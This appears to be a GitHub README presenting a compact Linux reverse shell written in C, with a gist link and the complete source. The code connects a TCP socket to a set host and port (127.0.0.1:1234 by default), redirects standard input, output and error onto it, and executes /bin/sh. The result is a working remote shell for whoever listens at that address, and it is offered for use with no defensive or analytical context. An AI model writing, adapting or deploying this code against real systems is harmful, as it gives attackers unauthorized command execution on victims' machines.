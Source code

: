# compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.

https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}

